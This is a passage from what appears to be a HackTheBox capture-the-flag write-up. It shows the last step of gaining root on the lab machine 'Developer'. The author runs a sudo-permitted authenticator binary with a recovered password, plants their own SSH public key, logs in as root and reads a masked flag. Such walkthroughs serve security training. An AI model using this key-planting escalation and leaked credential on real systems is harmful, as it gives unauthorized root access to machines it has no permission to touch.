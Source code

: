 

    karl@developer:~$ sudo /root/.auth/authenticator 
    Welcome to TheCyberGeek's super secure login portal!
    Enter your password to access the super user: 
    RustForSecurity@Developer@2021:)
    You have successfully authenticated
    Enter your SSH public key in now:
    ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    You may now authenticate as root!



On entering it, the program says I'm authenticated. And my key works:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.11.103
    ...[snip]...
    root@developer:~# 



And I can grab the flag:



    root@developer:~# cat root.txt
    999061a9************************







